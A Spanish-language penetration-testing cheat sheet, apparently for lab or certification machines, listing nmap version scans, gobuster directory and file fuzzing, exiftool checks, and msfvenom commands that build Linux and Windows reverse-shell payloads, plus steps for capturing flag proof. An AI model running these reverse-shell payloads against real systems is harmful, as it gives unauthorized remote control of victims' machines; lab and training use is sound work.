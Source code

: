     - Escaneo de versiones de los puertos encontrados
    
    ```jsx
    nmap -T4 -p1,2,3... -sCV -v 10.10.10.10 -oN enum/nmap-services.log
    ```
    
- Fuzzing Web
    - Directorios:
    
    ```jsx
    gobuster dir -u [http://10.10.10.10](http://10.10.10.10) -w /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt
    ```
    
    - Archivos:
    
    ```jsx
    gobuster dir -u [http://10.10.10.10](http://10.10.10.10/) -w /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt -x php,txt,html
    ```
    
    - Si encontramos archivos sospechosos podemos enumerar la metadata con `exiftool archivo.xyz`
        
        En un caso se encontró en un archivo .exe un instalador que enumerando los metadatos nos decía que era una instalación de la aplicación Remote Mouse (que tiene una vulnerabilidad y hay un exploit público)
        
- Creación de payloads
    
    Cheatsheet msfvenom payloads: [https://book.hacktricks.xyz/generic-methodologies-and-resources/shells/msfvenom](https://book.hacktricks.xyz/generic-methodologies-and-resources/shells/msfvenom)
    
    - Para Linux:
    
    ```jsx
    msfvenom -p linux/x64/shell_reverse_tcp LHOST=10.10.10.10 LPORT=1234 -f elf -o linrev1234.elf
    ```
    
    - Para Windows:
    
    ```jsx
    msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.10.10.10 LPORT=1234 -f exe -o winrev1234.exe
    ```
    

- Obtenemos una reverse shell y tenemos control del equipo víctima
- En el momento que consigamos acceso a una máquina y encontremos el local.txt o el root.txt la metodología para reportarlo bien es hacer una captura de pantalla que salgan los siguientes comandos:
    - `cat|type local.txt | root.txt | secret.txt`
    - `hostname`
    - `whoami`
    - `ipconfig | ifconfig`
    